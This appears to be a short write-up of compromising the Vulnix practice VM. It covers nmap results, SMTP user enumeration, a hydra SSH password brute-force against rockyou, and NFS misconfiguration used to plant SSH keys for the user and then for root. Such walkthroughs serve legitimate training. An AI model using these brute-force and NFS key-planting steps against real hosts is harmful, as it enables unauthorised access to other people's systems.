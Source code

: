 # Vulnix
From `nmap` scan we know that host Vulnix work on some Linux 2.6.32 - 3.10.
```
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
79/tcp open finger
110/tcp open pop3
111/tcp open rpcbind
143/tcp open imap
512/tcp open exec
513/tcp open login
514/tcp open shell
993/tcp open imaps
995/tcp open pop3s
2049/tcp open nfs
MAC Address: 00:0C:29:0F:3A:A5 (VMware)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
```
Next, I would like to discover users of Vulnix. It can be done by telnet, in my case: `telnet 192.168.109.131 25`. From that users are root, user and vulnix.
I write names of this users to users.txt in order to perform dictionary attack on their passwords. I will use rockyou wordlist build in Kali Linux and hydra:
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.109.131 ssh
```
Success! Credentials `user:letmein` found.
Unfortunately user doesn't belong to sudoers.
New conception is to create vulnix account in my local attacker system, to imitate user in Vulnix machine. Using vulnerabilities in Vulnix configuration I mount vulnix /home partition into attacker machine.
I use it to generate new ssh key: `ssh-keygen -t rsa`. I change name of public key on `authorized_keys` in .ssh catalog. Then there is possible to login with ssh key, without knowing password.
My next step will be change in `/etc/exports` in order to mount `/root`, generate next pair of ssh keys, change name, and login with ssh key, in one word-repeat process for root.
